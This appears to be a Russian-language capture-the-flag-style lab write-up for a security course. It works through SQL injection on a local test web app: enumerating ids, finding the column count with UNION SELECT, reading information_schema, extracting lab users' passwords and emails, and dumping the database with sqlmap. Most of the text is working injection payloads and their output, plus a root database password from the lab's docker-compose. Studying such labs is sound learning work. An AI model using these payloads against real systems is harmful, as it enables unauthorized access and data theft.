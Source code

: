 ### Получение данных через SQLi:

1. Выполню установку БД с web-страницы согласно заданию
http://192.168.1.17:8080

2. Начну смотреть данные с web-страницы
http://192.168.1.17:8080/task/

3. Здесь мне предложено ввести в качестве параметра id (видимо пользователя)

Добавляю параметр (id=1) и вижу результат с логином "admin"
<br/>http://192.168.1.17:8080/task?id=1
<br/>http://192.168.1.17:8080/task?id=2
...

#### Получение данных ["вручную"]

##### Переберу id от 1 до 10

<br/>http://192.168.1.17:8080/task?id=1 -- (admin)
<br/>http://192.168.1.17:8080/task?id=2 -- (Volk)
<br/>http://192.168.1.17:8080/task?id=3 -- (Matroskin)
<br/>http://192.168.1.17:8080/task?id=4 -- (Vinni-pukh)
<br/>http://192.168.1.17:8080/task?id=5 -- (Neznaika)
<br/>http://192.168.1.17:8080/task?id=6 -- (kotenok)
<br/>http://192.168.1.17:8080/task?id=7 -- (Karlson)
<br/>http://192.168.1.17:8080/task?id=8 -- (Kesha)
<br/>http://192.168.1.17:8080/task?id=9 -- (Volk2)
<br/>http://192.168.1.17:8080/task?id=10 -- (пусто)

Как видно, в этой таблице всего 9 записей
<br/>

##### Проверю id 0,-1
<a>http://192.168.1.17:8080/task/?id=0 -- (пусто)
<a>http://192.168.1.17:8080/task?id=-1 -- (пусто)
<br/>
##### Попробую подобрать запрос (в.т.ч. количество колонок)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1 -- -</a> (Неудачно) The used SELECT statements have a different number of columns
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1,1 -- -</a> (Неудачно) The used SELECT statements have a different number of columns
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1,1,1 -- -</a> (Удачно)
Предположу, что каждый запрос должен возвращать именно 3 колонки
<br/>

##### Получу список таблиц текущей БД (в строку)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(table_name SEPARATOR ';'),database(),null FROM information_schema.TABLES WHERE table_schema=database()-- -</a>

|Database|Tables|
|-|-|
|security|emails<br/>users|
<br/>

##### Получу имена колонок таблиц (всё так же в строку)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(column_name SEPARATOR ';'),null,null FROM information_schema.COLUMNS WHERE table_schema=database() AND TABLE_NAME = 'users'-- -</a>

|Table|Columns|
|-|-|
|users|id<br/>username<br/>password|
<br/>

<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT null,GROUP_CONCAT(column_name SEPARATOR ';'),null FROM information_schema.COLUMNS WHERE table_schema=database() AND TABLE_NAME = 'emails'-- -</a>

|Table|Columns|
|-|-|
|emails|id<br/>email_id|
<br/>

##### Получу данные пользователя с id=9 из таблицы users
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT username,password,null FROM users WHERE id=9-- -</a>

|Login|Password|
|-|-|
|Volk2|Wa spoiuuuuu|
<br/>

##### Получу данные email пользователя с ником Vinni-pukh
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(id,"-",email_id),null,null FROM emails -- -</a>

Из ранее полученных данных я знаю что у пользователя Vinni-pukh, id=4. Буду ориентироваться на эти данные
Получаю результат:
  |id (table users)|username|email|
  |-|-|-|
  |4|Vinni-pukh|honey_lover@otus-lab.com|
<br/>

---

#### Получение данных ["автоматически"] [SQLMap](https://github.com/sqlmapproject/sqlmap)
<br/>попробую снять дамп с БД...
<br/>python ./sqlmap.py -u "http://192.168.1.17:8080/task/?id=1" --dump
<br/>Готово

##### Получены файлы:
- users.csv
- emails.csv

##### Посмотрю таблицу users.csv

|id|password|username|
|-|-|-|
|1|kjhsd8@j0dfjk3$%jksli|admin|
|2|nu zayzc, nu pogodi!|Volk|
|3|a ya vse chawe zame4aiu, 4to menya kak budto kto-to podmenil|Matroskin|
|4|Ya tu4ka-tu4ka-tu4ka|Vinni-pukh|
|5|na Lune|Neznaika|
|6|Gav|kotenok|
|7|muwchina v samom rascvete sil|Karlson|
|8|pust vsegda budet Vovka |Kesha|
|9|Wa spoiuuuuu|Volk2|

Получен пароль пользователя Volk2
<br/>User: Volk2
<br/>Password: Wa spoiuuuuu

##### Посмотрю таблицу emails.csv
|id|email_id|
|-|-|
|1|admin@otus-lab.com|
|2|volchara1969@otus-lab.com|
|3|matroskin_is_prostokvashino@otus-lab.com|
|4|honey_lover@otus-lab.com|
|5|ne.znaika@otus-lab.com|
|6|kotenok@otus-lab.com|
|7|karlson@otus-lab.com|
|9|volk@otus-lab.com|

Получен почтовый ящик пользователя с ником Vinni-pukh (соответствие id=4)
<br/>User: Vinni-pukh (id=4 table Users)
<br/>Email: honey_lover@otus-lab.com

### Другой вариант получения всех таблиц и данных (обычный вход в БД MySQL)
(т.к. в docker-compose уже оставлен пароль администратора БД)
server: 192.168.1.17
port: 8989
login: root
password: Vdjo7#l-er

